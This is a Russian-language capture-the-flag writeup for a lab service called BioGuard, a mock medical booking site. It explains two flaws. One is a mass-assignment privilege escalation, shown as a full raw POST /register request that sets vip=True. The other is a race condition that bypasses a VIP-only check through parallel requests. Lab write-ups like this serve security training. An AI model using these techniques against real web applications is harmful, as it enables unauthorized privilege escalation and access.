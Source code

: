 # Writeup

## Введение
Сервис BioGuard - это сайт частной страховой компании, которая предоставляет различные медицинские услуги. Пациент регистрируется, логинится, получает доступ к профилю, в котором есть возможность выбрать услугу и записаться на прием.
Во время записи можно заметить, что у некоторых услуг в названии есть пометка "VIP". Такие услуги для записи доступны только пациентам с таким же статусом - VIP. 

## Уязвимости

### Privilege escalation
При попытке записаться на vip услугу пациент получает сообщение "This service is only for vip!" из чего можно сделать вывод, что таким статусом он не обладает. Но как его получить?
Если обратиться к коду, то можно заметить, что в форме PatientForm присутствует поле vip. И если передать его при регистрации равным True, можно получить себе привилегированного пациента. При записи пациента на vip услугу в его профиле отобразится флаг.

#### Эксплуатация
```
POST /register HTTP/1.1
Host: 127.0.0.1:4444
Content-Length: 132
Cache-Control: max-age=0
sec-ch-ua: "Not:A-Brand";v="24", "Chromium";v="134"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: ru-RU,ru;q=0.9
Origin: http://127.0.0.1:4444
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:4444/register
Accept-Encoding: gzip, deflate, br
Cookie: csrftoken=vPiKi3vpUahoc1PQItg9TAB2pVEznI2n
Connection: keep-alive

csrfmiddlewaretoken=kxg20E47lIRyh2BpzF8CM1f2MaQydcY1FcoC8xpm5IYMjTg57YeBvrGU1VkXqKQe&username=user2&password1=1&password2=1&vip=True
```
[эксплойт](../exploits/exploit1.py "")

### Race Condition
Но чтобы записаться на vip услугу не обязательно иметь соотвествующий статус. Достаточно создать несколько запросов записи на данную услугу и один запрос на услугу доступную для текущего пациента, затем отправить их параллельно с синхронизацией по последнему байту. Ограничение по статусу пациента удастся обойти, а в профиле появится флаг.

#### Эксплуатация
![alt text](image.png)
